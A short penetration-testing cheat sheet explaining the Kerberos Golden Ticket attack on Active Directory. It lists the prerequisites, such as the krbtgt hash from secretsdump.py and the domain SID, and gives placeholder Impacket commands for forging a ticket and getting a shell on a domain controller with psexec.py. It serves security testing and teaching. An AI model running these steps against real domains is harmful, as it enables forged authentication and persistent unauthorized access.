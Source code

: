# Create Golden Ticket

**Description:** A Golden Ticket attack is a type of attack in which an adversary gains control over an Active Directory Key Distribution Service Account (KRBTGT), and uses that account to forge valid Kerberos Ticket Granting Tickets (TGTs). 

This attack will allow you to persist in an environment almost indefinitely.

**Requirements:**

* Impacket

## Prerequisites for creating a Golden Ticket:

1. The NT hash of the `krbtgt` account. This can be obtained from running `secretsdump.py` on the Domain Controller. 
2. Domain SID. This can be obtained by using `LookupSID.py` on the Domain Controller. 
3. Domain name. This can be gathered by querying it on the Domain Controller or will have been gathered throughout the penetration test.
4. Username to impersonate. This should be a valid user on the domain. 

## Creating a Golden Ticket on Linux with Impacket

Use ticket.py to customize, sign, and save the ticket: \
```ticketer.py -nthash [NTHASH] -domain-sid [SID] -domain [DOMAIN] [USER]```

Export the ticket: \
```export KRB5CCNAME=[USER.CCACHE]```

Authenticate with the created ticket to the domain controller: \
```psexec.py [DOMAIN]/[USER]@[HOST] -k -no-pass -dc-ip [DOMAINCONTROLLER]```

## References
* [Microsoft Active Directory Golden Ticket Attacks Explained](https://www.qomplx.com/qomplx-knowledge-golden-ticket-attacks-explained/)
